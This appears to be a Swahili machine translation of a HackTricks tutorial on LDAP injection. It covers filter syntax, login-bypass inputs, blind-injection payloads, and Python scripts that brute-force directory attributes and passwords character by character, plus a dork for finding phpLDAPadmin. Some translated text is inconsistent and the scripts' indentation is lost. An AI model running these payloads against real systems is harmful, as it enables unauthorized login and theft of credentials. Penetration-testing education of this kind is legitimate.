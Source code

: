 # LDAP Injection

## LDAP Injection

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa unavutiwa na **kazi ya hacking** na kuhack yasiyoweza kuhack - **tunatafuta wafanyakazi!** (_kuandika na kuzungumza kwa ufasaha Kiswahili kunahitajika_).

{% embed url="https://www.stmcyber.com/careers" %}

## LDAP Injection

### **LDAP**

**Ikiwa unataka kujua ni nini LDAP tembelea ukurasa ufuatao:**

{% content-ref url="../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

**LDAP Injection** ni shambulio linalolenga programu za wavuti ambazo zinaunda taarifa za LDAP kutoka kwa pembejeo za mtumiaji. Hii hutokea wakati programu **inashindwa kusafisha** pembejeo ipasavyo, ikiruhusu washambuliaji **kubadilisha taarifa za LDAP** kupitia proxy ya ndani, ambayo inaweza kusababisha ufikiaji usioidhinishwa au urekebishaji wa data.

{% file src="../.gitbook/assets/EN-Blackhat-Europe-2008-LDAP-Injection-Blind-LDAP-Injection.pdf" %}

**Filter** = ( filtercomp )\
**Filtercomp** = na / au / si / kipenge\
**Na** = & filterlist\
**Au** = |filterlist\
**Si** = ! filter\
**Filterlist** = 1\*filter\
**Kipenge**= rahisi / kuwepo / sehemu\
**Rahisi** = attr filtertype assertionvalue\
**Filtertype** = _'=' / '\~=' / '>=' / '<='_\
**Kuwepo** = attr = \*\
**Sehemu** = attr ”=” \[mwanzo] \* \[mwisho]\
**Mwanzo** = assertionvalue\
**Mwisho** = assertionvalue\
**(&)** = Ukweli wa Kipekee\
**(|)** = Uongo wa Kipekee

Kwa mfano:\
`(&(!(objectClass=Impresoras))(uid=s*))`\
`(&(objectClass=user)(uid=*))`

Unaweza kufikia hifadhidata, na hii inaweza kuwa na taarifa za aina nyingi tofauti.

**OpenLDAP**: Ikiwa filters 2 zinakuja, inatekeleza ya kwanza tu.\
**ADAM au Microsoft LDS**: Kwa filters 2 wanatupa kosa.\
**SunOne Directory Server 5.0**: Tekeleza filters zote mbili.

**Ni muhimu sana kutuma filter kwa sintaksia sahihi au kosa litatupwa. Ni bora kutuma filter 1 tu.**

Filter inapaswa kuanza na: `&` au `|`\
Mfano: `(&(directory=val1)(folder=public))`

`(&(objectClass=VALUE1)(type=Epson*))`\
`VALUE1 = *)(ObjectClass=*))(&(objectClass=void`

Kisha: `(&(objectClass=`**`*)(ObjectClass=*))`** itakuwa filter ya kwanza (iliyotekelezwa).

### Login Bypass

LDAP inasaidia muundo kadhaa kuhifadhi nywila: wazi, md5, smd5, sh1, sha, crypt. Hivyo, inaweza kuwa kwamba bila kujali kile unachoweka ndani ya nywila, inahifadhiwa.
```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```
#### Orodha

* [LDAP\_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_FUZZ.txt)
* [LDAP Attributes](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt)
* [LDAP PosixAccount attributes](https://tldp.org/HOWTO/archived/LDAP-Implementation-HOWTO/schemas.html)

### Blind LDAP Injection

Unaweza kulazimisha majibu ya False au True ili kuangalia kama kuna data yoyote inayorejeshwa na kuthibitisha uwezekano wa Blind LDAP Injection:
```bash
#This will result on True, so some information will be shown
Payload: *)(objectClass=*))(&objectClass=void
Final query: (&(objectClass= *)(objectClass=*))(&objectClass=void )(type=Pepi*))
```

```bash
#This will result on True, so no information will be returned or shown
Payload: void)(objectClass=void))(&objectClass=void
Final query: (&(objectClass= void)(objectClass=void))(&objectClass=void )(type=Pepi*))
```
#### Dump data

Unaweza kuzunguka juu ya herufi za ascii, nambari na alama:
```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```
### Scripts

#### **Gundua maeneo halali ya LDAP**

Vitu vya LDAP **vina vyote kwa chaguo-msingi sifa kadhaa** ambazo zinaweza kutumika **kuhifadhi taarifa**. Unaweza kujaribu **kuvunjavunja zote ili kupata taarifa hizo.** Unaweza kupata orodha ya [**sifa za LDAP za chaguo-msingi hapa**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt).
```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
value = ""
finish = False
while not finish:
for char in alphabet: #In each possition test each possible printable char
query = f"*)({attribute}={value}{char}*"
data = {'login':query, 'password':'bla'}
r = requests.post(url, data=data, proxies=proxy)
sys.stdout.write(f"\r{attribute}: {value}{char}")
#sleep(0.5) #Avoid brute-force bans
if "Cannot login" in r.text:
value += str(char)
break

if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
finish = True
print()
```
#### **Mchakato wa Kipekee wa Blind LDAP Injection (bila "\*")**
```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
print("[i] Looking for number " + str(i))
for char in alphabet:
r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
if ("TRUE CONDITION" in r.text):
flag += char
print("[+] Flag: " + flag)
break
```
### Google Dorks
```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```
### More Payloads

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection" %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa unavutiwa na **kazi ya uhalifu** na kujaribu kuvunja yasiyoweza kuvunjwa - **tunatafuta wafanyakazi!** (_kuandika na kuzungumza kwa ufasaha kwa Kipolandi kunahitajika_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za uhalifu kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
